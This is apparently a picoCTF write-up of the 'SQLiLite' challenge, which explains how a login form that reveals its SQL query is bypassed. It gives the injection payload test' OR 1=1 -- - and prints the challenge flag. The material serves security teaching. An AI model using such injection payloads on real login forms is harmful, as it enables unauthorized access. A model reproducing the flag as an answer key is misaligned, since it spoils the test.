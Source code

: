 # SQLiLite

Can you login to this website? Try to login [here](http://saturn.picoctf.net:63527/).

-----

Navigating to the website, we are shown a login form:

![[picoctf/images/Pasted image 20250225181848.png]]

If we fail the login procedure, we are given the SQL query as feedback:

![[picoctf/images/Pasted image 20250225181915.png]]

We can manipulate this and perform SQLi:

```
test' OR 1=1 -- -
```

![[picoctf/images/Pasted image 20250225181956.png]]

The flag is hidden in a `<p></p>` tag:

```
Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}
```

```
picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}
```